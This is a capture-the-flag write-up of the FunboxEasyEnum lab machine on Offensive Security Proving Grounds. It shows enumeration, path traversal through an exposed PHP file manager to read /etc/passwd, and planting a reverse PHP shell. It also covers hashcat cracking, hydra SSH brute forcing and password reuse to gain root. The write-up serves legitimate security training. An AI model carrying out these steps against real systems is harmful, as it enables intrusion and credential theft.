

# FunboxEasyEnum
**Date:** February 18th 2023

**Author:** j.info

**Link:** [**Proving Grounds**](https://portal.offensive-security.com/proving-grounds/play) on Offensive Security

**PG Difficulty Rating:** Easy

<br>


<br>

## Objectives
- local.txt flag
- proof.txt flag

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -Pn -sV -sC -T4 $ip`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
```

An additional all ports scan doesn't show us anything different and I don't see any UDP ports open either.

<br>

### Gobuster Scan

`gobuster dir -u http://$ip -t 100 -r -x php,txt,html -w dir-med.txt`

```
/index.html           (Status: 200) [Size: 10918]
/javascript           (Status: 403) [Size: 280]
/phpmyadmin           (Status: 200) [Size: 10531]
/robots.txt           (Status: 200) [Size: 21]
/mini.php             (Status: 200) [Size: 3828]
```

<br>

## Website Digging

Visiting the main page shows us the default Apache2 "It works!" page.

I look through the source code of the page and it doesn't look like they tried to hide anything in there.

Checking out robots.txt:

```
Allow: Enum_this_Box
```

Trying to navigage to Enum_this_Box doesn't actually work.

The /phpmyadmin has the standard login page there as well:


Looking at mini.php shows us something interesting, a "mini shell":


It looks like we can upload files and have a few options under the drop down menu on the listed files as well. It tells us what directory we're in as well as the version number of the software which is helpful.

I try and edit the robots.txt file and it lets me. Something else that's interesting is when I click on the robots.txt file the URL gives us filesrc and path parameters, which it looks like we can modify to whatever we want so we're not stuck in this directory:

```
http://192.168.104.132/mini.php?filesrc=/var/www/html/robots.txt&path=/var/www/html
```

Changing that link to this shows us the /etc/passwd file:

```
192.168.104.132/mini.php?filesrc=/etc/passwd&path=/etc
```


File permissions still apply to this shell and it doesn't let me edit the /etc/passwd file to add my own user unfortunately.

I'll try the obvious upload a reverse PHP shell method now that I've looked around for a bit. I upload the pentestmonkey shell and try to chmod the file so that it has execute permissions but the mini shell won't set the permissions how you enter them. I play around with different numbers like 7777 etc but none of them actually work right.

<br>

## System Access

After that I decide to just edit the mini.php itself since we have full permissions on it. I copy everything out of the pentestmonkey shell except the opening and closing lines and paste them into the bottom of the mini.php file and save it, which works:



I then navigate back to mini.php with my browser and it gives us a shell back as www-data and quickly fix it:


<br>

## System Enumeration

I do some of the standard checks and we're logged in as www-data and have no special groups assigned to us.

Checking the OS and kernel info with `uname -a` shows us:

```
Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Checking users with shells on the system:

`cat /etc/passwd | grep -v 'false' | grep -v 'nologin'`

```
root:x:0:0:root:/root:/bin/bash
sync:x:4:65534:sync:/bin:/bin/sync
karla:x:1000:1000:karla:/home/karla:/bin/bash
harry:x:1001:1001:,,,:/home/harry:/bin/bash
sally:x:1002:1002:,,,:/home/sally:/bin/bash
goat:x:1003:1003:,,,:/home/goat:/bin/bash
oracle:$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:1004:1004:,,,:/home/oracle:/bin/bash
lissy:x:1005:1005::/home/lissy:/bin/sh
```

That's odd that the oracle user has a hash directly in /etc/passwd instead of /etc/shadow. I'll circle back to that if necessary.

`sudo -l` requires a password.

I look at all internally active ports with `netstat -tunlp` and the only things open are DNS plus what we've already found.

I run a `ps aux` and don't see anything useful.

Looking in the /var/www directory shows us our local.txt flag:

`wc -c /var/www/local.txt`

```
33 /var/www/local.txt
```

I find the phpmyadmin config file config-db.php over in /etc/phpmyadmin and it lists the username and password for the local database:

```
$dbuser='phpmyadmin';
$dbpass='<REDACTED>';
```

I login and check out the users table but it's empty.

Checking for SUID with `find / -perm /4000 2>/dev/null` doesn't give us anything out of the ordinary.

Nothing we can use with capabilities either when checking `getcap -r / 2>/dev/null`.

Looking through all of the directories in /home doesn't show us anything useful.

I think it's time to try and crack that hash for the oracle user. I copy the hash to a file on my local system and start cracking with hashcat:

`hashcat -m 500 -w 3 -D 1,2 hash.txt rockyou.txt`

```
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0:<REDACTED>

Recovered........: 1/1 (100.00%) Digests
```

NOTE: The hash is the first 32 characters after the $1$. In this case:

```
$1$|O@GOeN\$PGb9VNu29e9s6dMNJKH/R0
```

When I try and SSH over it won't accept the password so I just try and `su oracle` which works so I'm now switched over to the oracle user.

I check `sudo -l` again but we're not allowed to use anything.

I check the system for all files we can write to but nothing stands out.

Not really sure what else to do here so I go back and see if I can somehow switch to another user. We have these to choose from:

```
karla
harry
sally
goat
lissy - though she doesn't have a home directory in /home
```

First I try each of these users with su with the username and password the same, but no luck. I then try su with the password of password and the same thing.

I create a file called users.txt with these users in it and then dust off hydra:

`hydra -L users.txt -P rockyou.txt $ip ssh`

That's obviously going to take quite some time so I leave it going and switch to another tab, and log back in there.

I decide to see if password reuse is our avenue of attack and take the password we found in the SQL database config file and try it for the users on the system. When trying with karla we get in!


<br>

## Root

Checking if we can use `sudo -l` on karla shows us:


Well, that makes things a bit easier for sure.

I switch over to root and grab our flag:


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Finding **mini shell** installed which let us look around the file system, upload files, and more
- Uploading a **reverse PHP shell** and using it for our initial foothold
- Cracking a password hash with **hashcat** to move to another user
- Finding hard coded credentials in the **phpmyadmin** config file
- Using the password from that config file to login to another user on the system who had full sudo access, which we use to escalate to root

<br>

Many thanks to:
- [**Offensive Security**](https://www.offensive-security.com/) for hosting this CTF
